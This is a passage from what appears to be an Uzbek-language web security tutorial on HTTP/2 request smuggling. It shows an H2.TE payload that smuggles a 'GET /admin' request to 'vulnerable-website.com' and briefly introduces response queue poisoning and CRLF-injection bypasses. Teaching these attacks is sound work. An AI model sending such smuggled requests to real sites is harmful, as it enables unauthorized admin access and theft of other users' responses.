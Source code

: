 **Frontend (HTTP/2)**

```http
          :method  POST
            :path  /example
       :authority  vulnerable-website.com
     content-type  application/x-www-form-urlencoded
transfer-encoding  chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

**Backend (HTTP/1)**

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

Agar web sayt H2.CL yoki H2.TE request smuggling uchun himoyasiz bo'lsa unda siz [<mark style="color:yellow;">oldingi darslarimizdan ko'rgan</mark> ](broken-reference)xujumlarimizni bemalol amalga oshirishingiz mumkin.

## <mark style="color:yellow;">Response queue poisoning</mark> <a href="#response-queue-poisoning" id="response-queue-poisoning"></a>

Response queue poisoning boshqa foydalanuvchilarning ham responselarini o'zboshimchalik bilan o'g'irlash imkonini beruvchi kuchli rewuest smuggling hujumi bo'lib, ularning hisoblarini va hatto butun saytni xavf ostiga qo'yishi mumkin.

{% hint style="info" %}
**Batafsil o'qish:**\
[Response queue poisoning ☰](response-queue-poisoning.md)
{% endhint %}

## <mark style="color:yellow;">CRLF ineksiya orqali Request Smuggling</mark> <a href="#request-smuggling-crlf-injection-bilan" id="request-smuggling-crlf-injection-bilan"></a>

Agar web saytlar `content-length`ni tekshirish yoki `transfer-encoding` headerlarini o'chirish orqali H2.CL yoki H2.TE hujumlarini oldini olish uchun choralar ko'rsa ham, HTTP/2 ning ikkilik sanoq sistemasi, bunday front-end choralarini chetlab o'tishning yangi usullarini paydo qiladi.

